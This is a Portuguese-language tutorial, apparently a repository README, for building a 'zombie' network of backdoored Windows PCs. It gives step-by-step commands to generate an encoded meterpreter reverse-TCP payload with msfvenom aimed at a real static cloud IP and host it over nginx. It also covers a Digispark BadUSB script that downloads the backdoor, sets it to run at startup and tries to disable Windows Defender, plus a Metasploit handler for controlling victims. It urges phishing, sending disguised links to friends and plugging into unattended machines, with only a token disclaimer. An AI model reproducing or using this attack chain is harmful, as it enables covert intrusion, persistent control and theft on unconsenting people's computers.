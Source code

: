

**Criar uma instancia e definir um IP estatico**

 Eu estarei utilizando o **GCP(Google cloud platform)** mas você pode utilizar o provedor de **CLOUD** que deseja ou até mesmo um VPS.

Acesso meu console e crio a instância. instância essa que é bem básica, uma micro com SO Debian 9

Com o a instância criada, eu defino um IP estático para ela.
O IP estático é necessário para que não ocorra o risco do IP que definirmos no nosso backdoor mudar e perdemos nossos "computadores zumbis" já conquistados.

**Instalar METASPLOIT**

![](https://res.cloudinary.com/peerlyst/image/upload/c_limit,dpr_auto,f_auto,fl_lossy,h_428,q_auto,w_880/v1/post-attachments/1567258807005_bbvioc)

 Nesse passo vamos instalar nosso canivete suiço **METASPLOIT** para criamos nosso **BACKDOOR** e orquestramos nossos "computadores zumbis"

   Conecte-se a sua instância por ssh para instalarmos o **METASPLOIT**
   
 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```
conceda permisão de execução para o instalador

 ```shell
 chmod +x msfinstall
```
agora execulte o mesmo

 ```shell
 ./msfinstall
```

Como vai ser a primeira execução o **METASPLOIT** vai perguntar se você deseja configurar seu ambiente, criando um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta.

 ```shell
 msfconsole --version
```


**Criar BACKDOOR REVERSE**

![](https://encrypted-tbn0.gstatic.com/images?q=tbn%3AANd9GcSCSVqEzi43NukYA2E1HUfNSnztdZxoeFKaTczSbokL40tqbRL9)

Agora vamos criar o nosso backdoor definindo qual tipo de conexão iremos usar, que vai ser uma **REVERSA TCP** para qual tipo de SO alvo, que será máquinas Windows, o nosso **LHOST**(IP de comunicação) que vai ser o nosso IP estático, nossa **LPORT**(porta de comunicação) a porta TCP, o tipo da extensão do backdoor **-f exe**, que são executaveis do windows, o algoritmo de criptografia e compreensão, **-i ** o numero de interações do encoded com o backdoor, e **-o** o nosso arquivo de saida.  Se você estive e uma cloud provavelmente vai ter que *criar uma regra de firewall* para a sua porta escolhida

 ```shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls para listar os arquivos do diretório verá que o arquivo payload.exe foi criado


**Configurar NGINX para download do backdoor**

O **NGINX** vai ser necessário para  criarmos um servidor web no qual o nosso payload do **Digispark** possa fazer o download do **BACKDOOR** para dentro da máquina alvo. Ou enviarmos o link através de engenharia social para obter acesso a máquina alvo. 
 
 Vamos instalar o nginx

 ```shell
 sudo apt-get update
 sudo apt-get install -y nginx
```
Iremos criar uma copia do nosso backdoor dentro da pasta do servidor

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponível para download em

http://34.97.212.80/payload.exe


**Digispark**

![](https://pbs.twimg.com/media/ELWqVmnXUAE5ku8.jpg)

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de várias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas, Ou também utilizando técnicas de **Phishing**.

Mas aqui vou abordar um **ataque de infecção físico**, onde vamos precisar ter acesso físico a uma máquina e em posse de um **Digispark** iremos infectar o alvo.

Para quem não conhece o **Digispark**, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador.

![](https://i.ytimg.com/vi/YXWxEzLHXuw/maxresdefault.jpg)

> *Poderíamos utilizar o **Rubber duck** *(dispositivo esse usado na serie Mr. Robot)* original, mas no Brasil é difícil encotramos e os poucos chegam a ser vendidos por precinho um pouco salgado.*

O **Digispark** chega ser um genérico ao Rubber duck tem um desempenho inferior mas é uma alternativa acessível e viável para o nosso ataque e pode ser programada com a **IDE do Arduino**. Com isso configuraremos o Digispark para ser reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permisão do usuário da máquina, e iremos executar comandos de teclado para fazer o download do backdoor e executar ele na máquina, adicionando ele junto a inicialização do Windows, para que quando a máquina for reiniciada obtermos uma nova conexão.

Agora bora lá, para isso você vai precisar de um [Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16"). Com ele em mãos agora você vai precisar carregar nele os módulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos [deste tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui.

> *Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")*

**Criar Payload para injectar o BACKDOOR**

Feito tudo isso e com o **ARDUINO IDE** instalado vamos criar o nosso Payload que ao plugarmos em uma máquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e executar nosso backdoor, tudo isso em menos de 30 segundos.

Abra o **Arduino IDE** e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado, colado e entendido o que o payload faz, clique em verificar, para debugar nosso código e depois clique em carregar e aguarde a IDE solicitar que você pluge o digispark. Ao plugar a IDE vai injetar na placa nosso payload e SUCESSO! 

![](https://cedarctic.github.io/digiQuack/images/logo.png)

Nosso **DigiQuack esta criado**.


**Iniciar a escuta das conexões**

Agora voltamos para a nossa instância para iniciarmos a escuta na nossa porta. Em acesso SSH iniciamos o console do Metasploit executado

```shell
msfconsole
```
Depois de iniciado vamos selecionar qual exploit iremos usar, que é o multi/handle
feito isso setamos o meterpreter de conexão reversa tcp para o windows, setamos o nosso HOST e PORTA, os mesmo usados na criação do backdoor, e ExitOnSession para que o manipulador possa continuar executando como trabalho mesmo com uma sessão fechada ou com falha no medidor.

```shell
    msf >use exploit/multi/handler
    msf >set PAYLOAD windows/meterpreter/reverse_tcp
    msf >set LHOST 34.97.212.80
    msf >set LPORT 5000
    msf >set ExitOnSession false
```
feito isso estamos prontos para receber nossas conexões, você pode pressionar ctrl+c para liberar o terminal que agora iremos visualizar nossas conexões e obter acesso.

**Obter acesso a uma máquina infectada**

Agora basta pluga-lo em qualquer máquina windows desviar a atenção do usuário da máquina aguardar alguns segundos e remove-lo, tudo muito rápido.

Você também pode enviar o link para alguém e aguardar que ele se junte a sua rede de zumbis hahahaha

Para ficar na escuta em tempo real de quem se conectou ou disconectou rode.

```shell
    msf > exploit -j -z
```
 para listar nossas conexões de entrada até o momento

```shell
msf> sessions -l 
```
você terá uma saída algo como

![](https://s5.gifyu.com/images/sessionsL.png)

e para acessar um "zumbir"
```shell
msf> sessions -i <numero da sessão> 
```

com isso você obtem acesso shell 

![](https://s5.gifyu.com/images/sessionsI.png)

 
#### ** CONHECIMENTO NÃO É CRIME, CRIME É O QUE VOCÊ FAZ COM ELE. **

#### **ENTÃO UTILIZE  O QUE APRENDEMOS AQUI PARA FINS DIDATICOS, PARA ZUAR UM AMIGO OU IRMÃO E RESPEITE A PRIVACIDADE DOS OUTROS**

@despossivel
